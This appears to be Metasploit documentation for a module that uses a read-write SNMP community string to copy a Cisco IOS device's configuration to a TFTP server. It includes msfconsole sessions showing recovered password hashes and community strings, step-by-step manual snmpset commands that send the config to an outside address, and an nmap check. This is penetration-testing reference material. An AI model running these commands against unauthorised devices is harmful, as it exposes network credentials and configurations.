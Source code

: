 ## Vulnerable Application

  Cisco IOS devices can be configured to back-up their running and startup configurations via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  After the config has been copied, the SNMP paramters are deleted.

## Verification Steps

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_config_tftp```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```

## Options

  **COMMUNITY**

  The SNMP community string to use which must be read-write.  Default is `public`.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf5 > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 > use auxiliary/scanner/snmp/cisco_config_tftp
msf5 auxiliary(scanner/snmp/cisco_config_tftp) > set community private
community => private
msf5 auxiliary(scanner/snmp/cisco_config_tftp) > run

[*] Starting TFTP server...
[*] Scanning for vulnerable targets...
[*] Trying to acquire configuration from 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Incoming file from 2.2.2.2 - 2.2.2.2.txt 22831 bytes
[+] 2.2.2.2:161 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
[+] 2.2.2.2:161 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
[+] 2.2.2.2:161 SNMP Community (RO): public
[+] 2.2.2.2:161 SNMP Community (RW): private
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```

### Manual Interaction
This process can also be executed manually utilizing Metasploit's TFTP server.
Cisco's (documentation)[https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup]
was utilized to create this process.

1. Start the TFTP server

```
msf5 > use auxiliary/server/tftp 
msf5 auxiliary(server/tftp) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/tftp) > 
[*] Starting TFTP server on 0.0.0.0:69...
[*] Files will be served from /tmp
[*] Uploaded files will be saved in /tmp
```

2. Execute the SNMP commands.  An integer is required to group the requests together, `666` is used in this example.

```
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.2.666 = INTEGER: 1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 

iso.3.6.1.4.1.9.9.96.1.1.1.1.3.666 = INTEGER: 4
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.4.666 = INTEGER: 1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.5.666 = IpAddress: 1.1.1.1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.6.666 = STRING: "backup_config"
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 1
```

3. At this point the config is transfering, we need to wait a few seconds.  Lastly, we'll remove `666` from the system.

```
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 6
```

4. Confirm we have our config file

```
msf5 auxiliary(server/tftp) > ls -lah /tmp/backup_config
[*] exec: ls -lah /tmp/backup_config

-rw-r--r-- 1 root root 23K Oct 11 22:20 /tmp/backup_config
```

## Confirming using NMAP

Utilizing the [snmp-ios-config](https://nmap.org/nsedoc/scripts/snmp-ios-config.html) script

```
nmap -sU -p 161 --script snmp-ios-config --script-args creds.snmp=:private 192.168.2.239
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-11 22:30 EDT
Nmap scan report for 192.168.2.239
Host is up (0.0034s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-ios-config: 
| !
| ! Last configuration change at 18:01:46 PST Fri Jan 7 2000 by cisco
| ! NVRAM config last updated at 06:07:55 PST Tue Jan 4 2000 by cisco
| !
| version 12.4
| parser config cache interface
| no service pad
| service timestamps debug datetime msec
| service timestamps log datetime msec
| no service password-encryption
| service internal
| service compress-config
| service sequence-numbers
| !
| hostname UC520
...sip...
```
